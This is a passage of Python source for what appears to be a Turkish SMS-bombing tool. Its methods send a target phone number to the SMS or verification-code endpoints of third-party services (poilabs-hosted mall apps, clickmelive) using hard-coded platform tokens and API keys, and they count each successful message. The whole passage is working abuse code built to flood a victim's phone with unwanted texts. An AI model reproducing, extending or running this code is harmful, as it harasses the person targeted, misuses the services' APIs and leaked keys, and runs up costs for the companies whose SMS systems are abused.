         except:
            print(f"{Fore.LIGHTRED_EX}[-] {Style.RESET_ALL}Başarısız! {self.phone} --> api.joker.com.tr")
            
        
    #ak-asya.com.tr
    def Akasya(self):
        try:
            url = "https://akasya-admin.poilabs.com:443/v1/tr/sms"
            headers = {"Accept": "*/*", "Content-Type": "application/json", "X-Platform-Token": "9f493307-d252-4053-8c96-62e7c90271f5", "User-Agent": "Akasya", "Accept-Language": "tr-TR;q=1.0, en-TR;q=0.9", "Accept-Encoding": "gzip, deflate, br"}
            json={"phone": self.phone}
            r = requests.post(url=url, headers=headers, json=json, timeout=6)
            if r.json()["result"] == "SMS sended succesfully!":
                print(f"{Fore.LIGHTGREEN_EX}[+] {Style.RESET_ALL}Başarılı! {self.phone} --> akasya-admin.poilabs.com")
                self.adet += 1
            else:
                raise
        except:
            print(f"{Fore.LIGHTRED_EX}[-] {Style.RESET_ALL}Başarısız! {self.phone} --> akasya-admin.poilabs.com")
        
        
    #akbati.com
    def Akbati(self):
        try:
            url = "https://akbati-admin.poilabs.com:443/v1/tr/sms"
            headers = {"Accept": "*/*", "Content-Type": "application/json", "X-Platform-Token": "a2fe21af-b575-4cd7-ad9d-081177c239a3", "User-Agent": "Akbat", "Accept-Language": "tr-TR;q=1.0, en-TR;q=0.9", "Accept-Encoding": "gzip, deflate, br"}
            json={"phone": self.phone}
            r = requests.post(url=url, headers=headers, json=json, timeout=6)
            if r.json()["result"] == "SMS sended succesfully!":
                print(f"{Fore.LIGHTGREEN_EX}[+] {Style.RESET_ALL}Başarılı! {self.phone} --> akbati-admin.poilabs.com")
                self.adet += 1
            else:
                raise
        except:
            print(f"{Fore.LIGHTRED_EX}[-] {Style.RESET_ALL}Başarısız! {self.phone} --> akbati-admin.poilabs.com")
    
    
    #clickmelive.com
    def Clickme(self):
        try:
            url = "https://mobile-gateway.clickmelive.com:443/api/v2/authorization/code"
            headers = {"Content-Type": "application/json", "Authorization": "apiKey 617196fc65dc0778fb59e97660856d1921bef5a092bb4071f3c071704e5ca4cc", "Client-Version": "1.4.0", "Client-Device": "IOS", "Accept-Language": "tr-TR,tr;q=0.9", "Accept-Encoding": "gzip, deflate, br", "User-Agent": "ClickMeLive/20 CFNetwork/1335.0.3.4 Darwin/21.6.0"}
            json={"phone": self.phone}
            r = requests.post(url=url, json=json, headers=headers, timeout=6)
            if r.json()["isSuccess"] == True:
                print(f"{Fore.LIGHTGREEN_EX}[+] {Style.RESET_ALL}Başarılı! {self.phone} --> mobile-gateway.clickmelive.com")
                self.adet += 1
            else:
                raise
        except:
            print(f"{Fore.LIGHTRED_EX}[-] {Style.RESET_ALL}Başarısız! {self.phone} --> mobile-gateway.clickmelive.com")
    